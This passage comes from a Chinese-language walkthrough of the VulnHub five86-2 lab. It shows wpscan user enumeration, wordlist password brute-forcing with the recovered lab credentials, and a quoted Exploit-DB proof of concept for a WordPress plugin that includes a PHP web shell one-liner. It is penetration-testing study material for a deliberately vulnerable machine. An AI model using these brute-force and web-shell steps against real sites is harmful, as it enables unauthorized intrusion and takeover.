![][5]

### wpscan

既然只有`wordpress`这一条路给我们走，那就只能直接上`wpscan`了

使用及数据库更新方法在我之前的文章《用 wpscan 对 wordpress 站点进行渗透》里面有

扫描用户：

```
wpscan --url 192.168.1.3 -e u
```

![][6]

有以下用户：

- admin
- barney
- gillian
- peter
- stephen

保存到`users.txt`中，接着使用`wpscan`进行密码爆破：

```
wpscan --url http://192.168.1.3 -U users.txt -P /usr/share/wordlists/rockyou.txt -t 100
(kali自带的rockyou.txt.gz文件需要先解压：gzip -d /usr/share/wordlists/rockyou.txt.gz)
```

最后爆破出来两个用户密码；

- barney：spooky1
- stephen: apollo1

## 0x02 RCE 反弹 shell

获得了账户密码之后，我们就可以登录上去搞事情了：

![][7]

刚才扫描的时候没有扫描出任何插件，但是上去有三个插件：

![][8]

挨个在[`exploit-db`][9]搜索后，我找到了一个`RCE`漏洞：

![][10]

```
# Exploit Title: Authenticated code execution in `insert-or-embed-articulate-content-into-wordpress` Wordpress plugin
# Description: It is possible to upload and execute a PHP file using the plugin option to upload a zip archive
# Date: june 2019
# Exploit Author: xulchibalraa
# Vendor Homepage: https://wordpress.org/plugins/insert-or-embed-articulate-content-into-wordpress/
# Software Link: https://downloads.wordpress.org/plugin/insert-or-embed-articulate-content-into-wordpress.4.2995.zip
# Version: 4.2995 <= 4.2997
# Tested on: Wordpress 5.1.1, PHP 5.6
# CVE : -


## 1. Create a .zip archive with 2 files: index.html, index.php

echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
```

[1]: https://www.vulnhub.com/entry/five86-2,418/
[2]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_095716.png
[3]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_100229.png
[4]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101240.png
[5]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101839.png
[6]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_102125.png
[7]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103643.png
[8]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103157.png
[9]: https://www.exploit-db.com/
[10]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103920.png
[11]: https://youtu.be/knst26fEGCw?t=44
[12]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_105145.png
[13]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140110.png
[14]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140334.png
[15]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140925.png
[16]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140956.png
[17]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142334.png
[18]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142738.png
[19]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143212.png
[20]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143404.png
[21]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143757.png
[22]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_144656.png
[23]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150009.png
[24]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150242.png
[25]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150429.png
[26]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150524.png
[27]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150948.png
[28]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150831.png
[29]: https://mp.weixin.qq.com/s/V2V03UKaQgQaq3oXcZGvmQ
[30]: https://www.hacknos.com/five86-2-walkthrough-vulnhub-ctf/